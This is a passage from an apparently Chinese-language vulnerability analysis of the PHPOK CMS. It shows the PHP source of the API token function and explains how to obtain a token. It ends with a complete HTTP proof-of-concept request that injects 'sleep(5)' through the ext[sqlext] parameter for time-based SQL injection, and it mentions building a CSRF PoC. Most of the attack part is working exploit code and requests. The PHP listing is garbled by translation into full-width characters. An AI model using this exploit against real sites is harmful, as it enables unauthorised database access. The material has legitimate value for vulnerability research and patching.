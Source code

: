 
最终将sql带入执行。

当然，到这里，其实还有一个问题没有解决，我们需要如果拿到token=加密('id=m_picplayer')。

框架/ API / index_control.php＃token_f


```php
{ 
    $ this-> config（'is_ajax'，true）; 
    if（！$ this-> site ['api_code']）{ 
        $ this-> error（P_Lang（“系统未配置接口功能”））; 
    } 
    $ id = $ this-> get（'id'，'system'）; 
    if（！$ id）{ 
        $ this-> error（P_Lang（'未指定数据调用标识'））; 
    } 
    $ this-> model（'call'）-> site_id（$ this-> site ['id']）; 
    //限制范围，其中identifier = $ id 
    $ rs = $ this-> model（'call'）-> get_one（$ id，'identifier'）; 
    if（！$ rs ||！$ rs ['status']）{ 
        $ this-> error（P_Lang（'标识不存在或未启用'））; 
    }

  // 141行
    $ array = array（'id'=> $ id，'param'=> $ param）; 
    $ token = $ this-> lib（'token'）-> encode（$ array）; 
    $ this-> success（$ token）; 
}
```

其中第一个如果条件需要在后台生成api字符串：

![](images/15893357679726.png)


没开启的话，其实构造一个csrf的poc也是可以的

第二个条件预期id=m_picplayer即可

### 漏洞复现


```bash
http://url/api.php?c=index&f=token&id=m_picplayer
```

![](images/15893357881539.png)


POC：


```bash
GET /api.php?c=index&f=phpok&token=6318fdtC3WRpOzYNzKVNw78PFa9OhFea5pp3/uZ4U3T67a/F47WhJ0lr856V7yomOcG0u8/UJpIwKKOwJAKspTSWN+5ljVNWR5978g7HHoG14M&ext[sqlext]=sleep(5)%23&ext[site]=1 HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; U; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4
Connection: close
```
